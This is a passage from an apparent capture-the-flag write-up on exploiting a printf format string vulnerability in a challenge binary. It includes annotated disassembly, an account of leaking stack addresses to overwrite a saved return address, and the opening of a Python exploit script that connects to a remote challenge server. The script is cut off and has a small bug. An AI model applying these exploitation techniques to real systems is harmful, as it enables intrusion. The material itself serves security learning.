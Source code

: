 ```
11d9: lea    rsi,[rip+0x2b5]       ; 'secret_MD5' --> same remotely :?
11e0: mov    rdi,rax
11e3: call   b70 <memcmp@plt>
11e8: test   eax,eax
11ea: jne    11f8 <open@plt+0x668>
11ec: mov    eax,0x0
11f1: call   fb3 <open@plt+0x423>
11f6: jmp    122e <open@plt+0x69e>
11f8: lea    rax,[rbp-0x210]
11ff: mov    rdi,rax
1202: mov    eax,0x0
1207: call   a70 <printf@plt>      ; second printf call; overwrite saved ret addr using format string vuln
120c: lea    rdi,[rip+0x293]        # 14a6 <open@plt+0x916>
1213: call   a90 <puts@plt>
1218: lea    rdi,[rip+0x2b1]        # 14d0 <open@plt+0x940>
121f: call   a90 <puts@plt>
1224: mov    edi,0x1
1229: call   aa0 <exit@plt>
```

I found a nice, stable stack pointer that I could leak, calculated the offset to the location of the saved return address and plugged it in a poc script. Locally, it gave me the flag! I quickly tried it remotely, but it failed miserably. Turns out the layout of the stack was different; the leaked stack pointer was at a different location. Furthermore, the offset from other leaked stack addresses to the saved return address of the second printf was different. Back to the drawing board?

Some luck involved
------------------

I spent some time trying to locate other stack addresses that I could leak and gave me a nice, stable way to calculate the location of the saved return address. I had a way to leak the binary address, meaning I could calculate the exact return address. I then started brute-forcing stack pointers and using the second printf to dump the memory from the stack. Using this, I was looking for the correct return address. Because I was fed up with it and it was late, I had forgotten to remove a certain constant from the poc that I used locally. 

```python
from socket import *
import struct, telnetlib, re, sys

def readtil(delim):
    buf = b''
    while not e in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def q(x):
    return struct.pack('<Q', x)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('localhost', 6666))
    s.connect(('202.112.26.107', 10910))
    
    raw_input()
    
    readtil('Login: ')
```